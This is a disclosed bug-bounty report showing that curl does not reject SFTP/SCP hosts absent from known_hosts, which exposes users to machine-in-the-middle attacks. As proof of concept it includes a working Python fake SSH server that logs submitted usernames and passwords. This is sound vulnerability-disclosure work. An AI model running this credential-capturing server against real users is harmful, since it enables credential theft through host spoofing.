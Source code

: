 # curl allows SSH connection even if host is not in known_hosts

## Report Details
- **Report ID**: 2961050
- **URL**: https://hackerone.com/reports/2961050
- **State**: Closed
- **Severity**: high
- **Submitted**: 2025-01-27T17:30:02.608Z
- **Disclosed**: 2025-02-05T21:41:40.866Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Curl does _not_ fail if the SSH host identity cannot be verified due to the host not being included in the `.ssh/known_hosts` file. This makes using curl to login into an previously unknown ssh host system vulnerable to meddler in the middle attacks. When using key based authentication it will allow a malicious host to spoof the real system, and either return tampered or otherwise malicious content on download, or capture the uploads. When using username + password authentication it will also leak the username and password to the attacker, and thus allow the attacker to connect to the intended target host. 

Curl does have `--insecure` option which is said to:

```
              For SFTP and SCP, this option makes curl skip the known_hosts
              verification.  known_hosts is a file normally stored in the
              user's home directory in the ".ssh" subdirectory, which contains
              hostnames and their public keys.
```
From this it would be easy to assume that omitting `--insecure` would mean that the connection is secure, that is: the connection would fail if the host identity can't be verified *or* curl would prompt the user to verify the host key similar to how SSH command does. However, this is not the case, and the connection will succeed if the host is not in the `.ssh/known_hosts` file. The current curl behaviour is similar to ssh being used with `StrictHostKeyChecking` `accept-new`.

Note that while curl does warn of the issue with `Warning: Couldn't find a known_hosts file` this is too late:

```
$ curl --user foo sftp://localhost:2222
Enter host password for user 'foo':
Warning: Couldn't find a known_hosts file
curl: (67) Login denied
```
The warning is issued only after the password has been requested. The username & password have already been sent to the malicious server by the time the user sees the warning:
```
INFO:root:[pass] Authenticated username foo password bar
```
The warning also is quite useless when curl is being called from scripts as the command is not failing.

## Affected version
8.11.1

## Steps To Reproduce:
  1. `./configure --with-openssl --with-libssh` (or `--with-libssh2`)
  2. `make`
  3. Have no entry of targethost in `.ssh/known_hosts`file.
  4. `(DY)LD_LIBRARY_PATH=lib/.libs src/curl  sftp://foo:bar@targethost`

The middler in the middle will obtain the credentials:
```
INFO:root:[pass] Authenticated username foo password bar
```

## Supporting Material/References:

Here's a minimal fake SSH server dumping username & password sent to it. The server runs on port 2222.
```
#!/usr/bin/env python3

import paramiko.rsakey
import paramiko
import threading
import logging
import socket

logging.basicConfig(level = logging.INFO)

class SSHServer(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()

    def get_allowed_auths(self, username):
        logging.debug('[auth] Get username {} allowed auths'.format(username))
        return "password,publickey,none"

    def check_auth_none(self, username):
        logging.debug('[none] Authenticated username {}'.format(username))
        return paramiko.AUTH_FAILED

    def check_auth_password(self, username, password):
        logging.info('[pass] Authenticated username {} password {}'.format(username, password))
        return paramiko.AUTH_FAILED

class ClientConnection(threading.Thread):
    def __init__(self, group = None, target = None, name = None, args = ()):
        threading.Thread.__init__(self, group = group, target = target, name = name)
        self.args = args

    def run(self):
        hostkey = self.args[0]
        client = self.args[1]
        transport = None
        chan = None

        try:
            transport = paramiko.Transport(client)
            try:
                transport.load_server_moduli()
            except:
                pass

            transport.add_server_key(hostkey)
            server = SSHServer()
            try:
                transport.start_server(server=server)
            except:
                logging.warning('*** SSH negotiation failed, disconnect')
                client.close()
                return

            logging.info('Full remote version: {}'.format(transport.remote_version))

            chan = transport.accept(10)
            if chan:
                chan.close()
            transport.close()

        except Exception as e:
            logging.info('*** Caught exception: {}: {}'.format(str(e.__class__), str(e)))
            if chan:
                chan.close()
            if transport:
                transport.close()
            pass


def main():
    hostkey = paramiko.rsakey.RSAKey.generate(1024)
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('', 2222))
    sock.listen(7)

    while True:
        client, addr = sock.accept()
        logging.info('Received connection from {}:{}'.format(addr[0], addr[1]))
        t = ClientConnection(args = (hostkey, client,))
        t.start()

if __name__ == '__main__':
    main()
```

  * [attachment / reference]

## Impact

## Summary:
- Download of malicious content (on download).
- Leak of confidential information (on upload).
- Leak of credentials (if using password auth).

## Attachments
No attachments
